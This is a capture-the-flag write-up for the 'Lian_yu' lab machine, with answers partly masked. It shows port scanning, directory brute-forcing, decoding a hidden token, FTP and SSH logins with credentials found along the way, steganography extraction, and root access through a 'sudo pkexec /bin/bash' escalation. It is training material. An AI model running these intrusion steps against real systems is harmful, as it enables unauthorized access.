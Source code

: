 # Lian_yu

## 1. Port Scanning & Enumeration
### 1.1 Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.185.218
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 04:00 EDT
Nmap scan report for 10.10.185.218
Host is up (0.19s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34042/udp   status
|   100024  1          40662/tcp   status
|   100024  1          41729/tcp6  status
|_  100024  1          46517/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.45 seconds

```

No `ftp` anon login. That's good. Nothing out of ordinary.

### 1.2 Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/***a**               (Status: 301) [Size: 236] [--> http://10.10.185.218/***a**/]
```

Interesting. Looking at the source code, we get:

`<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> *****a**e</style></h2>
`

It also hints at 'find a way'. This means more enumeration :D

```                          
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218/***a** -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q

/21**                 (Status: 301) [Size: 241] [--> http://10.10.185.218/***a**/21**]
```

Looking at the source code again, we get:

`<!-- you can avail your .ticket here but how?   -->
`

Time for another round of web enumeration!

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218/***a**/21** -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket -q
/g****_*****.ticket   (Status: 200) [Size: 71]

```

Ey, viola!

```
This is just a token to get into Queen's Gambit(Ship)


RTy8yh******
```

### 1.3 Decoding

Using [CyberChef](http://icyberchef.com/), I hoped to get some thing, but to no avail. It only says base64, but prints some garbage if we use it.

Having some previous blockchain experience, I remember that BTC usernames and something something uses base58. Trying that out, we get: `!#th3****`

Using the `*****a**e` and the `!#th3****` as creds to ftp, we get in!

### 1.4 FTP

```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.185.218
Connected to 10.10.185.218.
220 (vsFTPd 3.0.2)
Name (10.10.185.218:kali): *****a**e
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> get Leave_me_alone.png
...
ftp> get Queen's_Gambit.png
...
ftp> get aa.jpg
... 
```

### 1.5 File Exploration

```       
┌──(kali㉿kali)-[/tmp]
└─$ file Leave_me_alone.png 
Leave_me_alone.png: data
```

```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
```

Trying empty string did not work, but password as password did. Quite common, plus, I'd like to dodge as many stego challenges :D

Anyways, going in, we have two files

```
┌──(kali㉿kali)-[/tmp]
└─$ cat passwd.txt
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, ****** learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

We get a username

```
┌──(kali㉿kali)-[/tmp]
└─$ cat shado     
*********
```

... did not work on the user we saw.

Tracing our steps back, we may have missed something important: `ls -la` is always preferred over `ls`. I took note!

Here's the interesting file we missed:

```
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
```

Looking in it, we get a whole bunch of other users, and we just try them one by one :D

PS: You could use Hydra, but I feel that equal work.

## 2. Foothold

```
┌──(kali㉿kali)-[~]
└─$ ssh ****e@10.10.185.218
****e@10.10.185.218's password: 
                              Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

****e@LianYu:~$ 
```

Get the user flag. Easy. Nothing else too interesting. Except - the sudo permissions.

## 3. PrivEsc

Looking it up on [gtfobins](https://gtfobins.github.io/) we get `sudo pkexec /bin/bash` as the command to run. Ez

And ...

```
****e@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# cat /root/root.txt
                          Mission accomplished
...
```

We are done!

